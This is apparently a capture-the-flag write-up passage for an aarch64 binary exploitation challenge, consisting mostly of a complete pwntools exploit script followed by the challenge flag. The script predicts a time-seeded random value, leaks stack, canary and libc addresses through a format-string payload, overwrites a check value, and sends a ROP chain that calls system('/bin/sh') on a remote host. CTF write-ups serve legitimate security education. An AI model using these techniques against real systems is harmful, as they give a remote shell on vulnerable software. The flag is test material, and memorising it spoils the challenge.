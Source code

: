 The challenge can be solved by performing `ROP` in this function using the information leaked in the previous step.
`ASLR` isn't a big problem since we can just leak all the addresses.

### Exploit
```py
from pwn import *
from ctypes import *

context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]
context.arch = 'aarch64'
context.bits = 64

# p = process(['qemu-aarch64-static', '-g', '1234' , '-L', '/usr/aarch64-linux-gnu', './chall'])
# p = process(['qemu-aarch64-static', '-L', '/usr/aarch64-linux-gnu', './chall'])

p = remote('152.69.210.130', 1337)
libc = ELF('/usr/aarch64-linux-gnu/lib/libc.so.6')
libc_handle = CDLL('libc.so.6')

libc_handle.srand(libc_handle.time(0))
rand_val = libc_handle.rand() % 10000 + 1

p.sendlineafter(b': ', str(rand_val).encode())
# p.sendlineafter(b': ', b'a' * 8 + b'%p_' * 20)
p.sendlineafter(b'spell:', b'%5$p_%27$p_%33$p')

p.recvuntil(b'0x')
stack_leak = int(p.recvuntil(b'_', drop=True), 16)
log.info(f"stack_leak: {hex(stack_leak)}")

canary = int(p.recvuntil(b'_', drop=True), 16)
log.info(f"canary: {hex(canary)}")

libc_base = int(p.recvuntil(b'\n', drop=True), 16) - 0x274cc
log.info(f"libc_base: {hex(libc_base)}")

check = stack_leak + 0x26fb
log.info(f"check: {hex(check)}")

fsb_payload = fmtstr_payload(12, {check: 0xdeadbeef}, write_size='short')
p.sendlineafter(b'spell:', fsb_payload)

binsh = libc_base + libc.search(b'/bin/sh').__next__()
log.info(f"binsh: {hex(binsh)}")
system = libc_base + libc.symbols['system']
log.info(f"system: {hex(system)}")
gadget1 = libc_base + 0x00000000000d20a4 # ldp x21, x30, [sp, #0x10] ; ldp x19, x20, [sp], #0x20 ; ret
gadget2 = libc_base + 0x00000000000e33e0 # mov x0, x20 ; blr x21

payload = b'a' * 128 + p64(canary) + b'a' * 0x8 + p64(gadget1) + b'A' * 0x58 + p64(canary) + b'A' * 0x8 + p64(binsh) + p64(system) + p64(gadget2)

p.sendlineafter(b'name:', payload)

p.interactive()
```
{{< admonition note "flag" true >}}
`ISITDTU{a3728bf1d6fc2f1bcfec6d0b64bca566a5149f52}`
{{< /admonition >}}
